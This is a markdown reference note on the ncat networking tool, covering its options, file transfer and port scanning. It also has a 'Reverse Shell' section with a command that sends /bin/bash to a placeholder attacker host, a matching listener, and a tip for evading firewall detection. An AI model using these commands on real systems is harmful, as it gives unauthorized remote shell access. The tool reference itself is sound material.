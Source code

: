 ```yaml
---
id: ncat
aliases:
  - netcat
tags:
  - netcat
  - ncat
  - nc
links: "[[Netcat]]"
---
```


# Netcat

`ncat` — Reimplementation of netcat maintained by the [Nmap](https://nmap.org/ncat/) team

## Usage

Synopsis

```sh
ncat [OPTIONS...] [hostname] [port]
```

<!-- Examples {{{-->
Examples

```sh
# Execute the given command after connecting
ncat -e /bin/bash localhost 8080

# Listen for incoming connections
ncat -l 8080

# Do not resolve hostnames via DNS
ncat -n localhost 8080

# Specify source port to use
ncat -p 8080 localhost 8081

# Use source IP address
ncat -s 192.168.1.5 localhost 8080

# Answer TELNET negotiation
ncat -t localhost 8080

# Use UDP instead of default TCP
ncat -u localhost 8080

# Verbose mode
ncat -v localhost 8080

# Set a timeout for idle connection
ncat -w 5 localhost 8080

# Zero-I/O mode, report connection status only
ncat -z localhost 8080
```
<!-- }}} -->

<!-- File Transfer {{{-->
### File Transfer

Listen to an incoming connection on port `8080` and write any received data to
`received_file`

```sh
ncat -l 8080 > received_file
```

Connect to a server on port `8080` and send the content of `file_to_send`

```sh
ncat localhost 8080 < file_to_send
```
<!-- }}} -->

<!-- Port Scanning {{{-->
### Port Scanning

Check if the port is open and then close the connection *(ports 80-90 through
`localhost`)*

```sh
ncat -v -n -z localhost 80-90
```
<!-- }}} -->

<!-- Reverse Shell {{{-->
### Reverse Shell

Initiate a connection back to the target machine

```sh
ncat {attacker_ip} {attacker_port} -e /bin/bash
```

Listen to incoming connection

```sh
ncat -lvnp {listening port}
```

*Keep the listening port below `1000` to avoid firewall detection*
<!-- }}} -->

## Resources

- [Ncat](https://nmap.org/ncat/)
- [Ncat Users' Guide](https://nmap.org/ncat/guide/index.html)
- [ncat - man7.org](https://www.man7.org/linux/man-pages/man1/ncat.1.html)
- [Netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
